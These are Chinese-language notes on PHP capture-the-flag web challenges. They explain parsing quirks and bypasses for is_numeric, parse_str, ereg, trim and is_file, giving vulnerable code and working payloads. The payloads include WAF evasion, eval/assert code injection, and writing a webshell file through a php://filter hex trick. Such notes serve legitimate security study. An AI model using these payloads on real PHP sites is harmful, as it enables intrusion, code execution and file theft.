 ## **字符串解析特性**
![](.topwrite/assets/image_1732956120665.png)
原理：<https://blog.csdn.net/bin789456/article/details/120305682>
利用：<https://blog.csdn.net/qq_45521281/article/details/105871192>
如果一个IDS/IPS或WAF中有一条规则是当num参数的值是一个非数字的值则拦截。
则禁用?num=a，但用? num=a，?%20num=a效果一样。也可?[num=a。


^
传参特性
```
PHP将查询字符串（在URL或正文中）转换为内部$_GET或的关联数组$_POST。如：/?cTF=ctf变成Array（[CTF]=>"ctf"）。查询字符串在解析的过程中会删除空白符，同时将某些字符删除或用下划线代替。如，/?CTF[SHOW=42 会转换为Array([CTF_SHOW] => 42) 。

在php中变量名只有数字字母下划线，被get域者post传入的变量名，如果含有空格、+、[则会被转化为_，
所以按理来说我们构造不出CTF_SHOW.COM这个变量(因为含有.）
但php中有个特性就是如果传入[，它被转化为_之后，后面的字符就会被保留下来不会被替换。

$_POST['a_sec.b']
需要传a[sec.b=

h_in.t传参h[in.t

a_b直接传参a_b即可
```


^
## **时间相关**
```
$guess = $_GET['input'];
$target = random_int(114,114+date('s')*100000);  //114+获取的当前秒数
if(intval($guess) === intval($target)){
    good
}
```
114+获取当前秒数，必然有当前秒数是0，则就是114，所以一直?input=114等到秒数为0时即可。












^
## **运算符优先级**
and优先级低于=
```
include("ctfshow.php");
//flag in class ctfshow;
$ctfshow = new ctfshow();
$v1=$_GET['v1'];
$v2=$_GET['v2'];
$v3=$_GET['v3'];
$v0=is_numeric($v1) and is_numeric($v2) and is_numeric($v3); //and优先级低于=。
//所以$v0的值就是$v1的判断，检查变量$v1是否是一个数字值或数字字符串。
if($v0){
    if(!preg_match("/\;/", $v2)){
        if(preg_match("/\;/", $v3)){
            eval("$v2('ctfshow')$v3");
        }
    }   
}

要读取一个类信息，类名
var_dump(get_class_vars('ctfshow'));
?v1=1&v2=var_dump(get_class_vars&v3=);

反射获取类信息
echo new ReflectionClass('ctfshow');
?v1=1&v2=echo new ReflectionClass&v3=;
```

^
## **is_numeric函数特性**
```
$v1 = $_POST['v1'];
$v2 = $_GET['v2'];
$v3 = $_GET['v3'];
$v4 = is_numeric($v2) and is_numeric($v3);
if($v4){
    $s = substr($v2,2);
    $str = call_user_func($v1,$s);
    echo $str;
    file_put_contents($v3,$str);
}
else{
    die('hacker');
}

php5下is_numeric可识别16进制，如0x2e，然后调用hex2bin转成字符串写入木马，
但题目环境没配好，是php7的is_numeric不能识别16进制，必须全数字，所以要另换方法。

当用伪协议写入时，将如下木马先base64编码后转成16进制就是全是数字的字符串！
$a='<?=`cat *`;';
$b=base64_encode($a);//$a=PD89YGNhdCAqYDs=
$c=bin2hex('PD89YGNhdCAqYDs');
得到5044383959474e6864434171594473

?v2=115044383959474e6864434171594473&v3=php://filter/write=convert.base64-decode/resource=1.php
POST:v1=hex2bin
```




^
## **parse_str()函数**
parse_str() 函数把查询字符串解析到变量中。
如果未设置第二个参数的array参数，由该函数设置的变量将覆盖其他地方定义已存在的同名变量。
```
// 假设我们有一个 URL 编码的字符串
$str = "name=Kimi&age=30";

// 使用 parse_str() 解析字符串
parse_str($str);

// 输出解析后的变量
echo $name; // 输出 Kimi
echo $age;  // 输出 30

parse_str($str,$arr);
$arr['name']
$arr['age']
```
```
$v1 = $_POST['v1'];
$v3 = $_GET['v3'];
   parse_str($v1,$v2);
   if($v2['flag']==md5($v3)){
       echo $flag;
   }

Payload：
GET：v3=0
POST: v1=flag=cfcd208495d565ef66e7dff9f98764da
```




^
## **%00截断和ereg()函数**
ereg()正则匹配函数
```
if (ereg ("^[a-zA-Z]+$", $_GET['c'])===FALSE)  {  //原意c传递必须全字母，但是可以%00截断后，后非字母
    die('error');

}

if(intval(strrev($_GET['c']))==0x36d){
    echo $flag;
}

?c=A%00778
正则匹配A满足
反转877A
数值877 即16进制36d
```



^
## **trim()函数绕过**
```
$num=$_GET['num'];
if(is_numeric($num) and $num!=='36' and trim($num)!=='36'){
    if($num=='36'){
        echo $flag;}

trim() 去除普通空格、制表符(%09)、换行符(%0a)、回车符(%0d)、空字节符(%00)、垂直制表符（%0b），但不去除换页符%0c
?num=%0c36
```
 

^
## **is_file()函数绕过**
```
if(! is_file($file)){
    highlight_file($file);
}
```
要让其认为$file不是一个文件。
```
1、伪协议
2、利用长度溢出认为不是文件
?file=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/var/www/html/flag.php

```


^
## **$_SERVER['argv']**
```
对于GET传参：?a=b+fl0g=flag_give_me
$a=$_SERVER['argv']; //为数组 

$_SERVER['argV'][0]为 a=b
$_SERVER['argV'][1]为 fl0g=flag_give_me
```
```
<?php
 
$a=$_SERVER['argv'];
$c=$_POST['fun'];
eval("$c".";");  

if(!isset($_GET['fl0g'])){
         if($fl0g==="flag_give_me"){
             echo $flag;
         }
    }
}
?>


Payload1：
GET：?a=1+fl0g=flag_give_me  绕过if(!isset($_GET['fl0g']))
POST：fun=parse_str($a[1])

由$_SERVER['argV'][1]为 fl0g=flag_give_me
通过parse_str得 $fl0g=flag_give_me


Payload2：
?$flog=flag_give_me
fun=assert($a[0])
```